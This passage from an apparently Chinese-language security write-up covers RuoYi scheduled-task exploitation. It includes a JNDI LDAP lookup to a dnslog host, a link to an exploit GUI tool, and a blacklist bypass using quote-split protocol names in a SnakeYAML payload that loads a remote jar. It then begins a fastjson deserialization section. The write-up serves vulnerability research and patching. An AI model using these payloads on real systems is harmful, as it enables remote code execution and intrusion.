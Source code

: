 我们再来试试dnslog  
```
javax.naming.InitialContext.lookup('ldap://rcy8ps.dnslog.cn')
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicste74ZeR7yExbI8RMmWUPDuc6icf2e14bVHZuQ4V7ozISS6JeOw9Mfw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicFIuPd85LNswgVl4ibPwuLJsOQl0qO84PBbGaibIOJrNhiasxkvK8egvXg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicaQ5gzGHTlPI7qicZlZF7XBG7ghzpKq17o2995djjCXFm17ibRJwua3PA/640?wx_fmt=png&from=appmsg "")  
  
工具使用：  
https://github.com/charonlight/RuoYiExploitGUI  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicXsADiaZOMECMLATxSrficicCicw5p4Ma9zoNtdTK2g90KrlM3sL2tvVcTw/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicv1ro5A9gRT9kE9LmYtsnccV19ZmkeXQMxHae6oia9SCxI1BqXHbuc7w/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicV3nrGMBmK6ibraFB4LOfXofgJQr55gok3I1hdk8Qnn3mMt7NpSbIMIw/640?wx_fmt=png&from=appmsg "")  
## 0x06 修复方式  
  
1、升级版本。  
## 0x07 bypass  
### 版本4.6.2<=Ruoyi<4.7.2  
  
这个版本采用了黑名单限制调用字符串  
- 定时任务屏蔽ldap远程调用  
  
- 定时任务屏蔽http(s)远程调用  
  
- 定时任务屏蔽rmi远程调用  
  
**Bypass**  
咱们只需要在屏蔽的协议加上单引号,接着采用之前的方式例如:  
```
org.yaml.snakeyaml.Yaml.load(’!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [“**h’t’t’p’:**//127.0.0.1:88/yaml-payload.jar”]]]]’)
```  
# 0x07 fastjson反序列化  
  
关注两个函数 parse 和 parseObject JSONObject.parse  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicNcjosiaNQKic6wdn2Y3iaj7yyJl90iaMju7W8rhOL5TtlibSTCUm6UcZtbg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3Ndvoicu5Uedr4yrujUOPMgLnl1Xlib1iax3NNVKUoEWA07gmgVzQGwj784iattg/640?wx_fmt=png&from=appmsg "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkb8xu0jnBTwkWNiat3NdvoicsXng3uWQEgYvVGIcMuVXLPpJjbHRDHElrXvoKic2ZTUsrBTuRIy0mdg/640?wx_fmt=png&from=appmsg "")  
![]( "")  
![]( "")  
  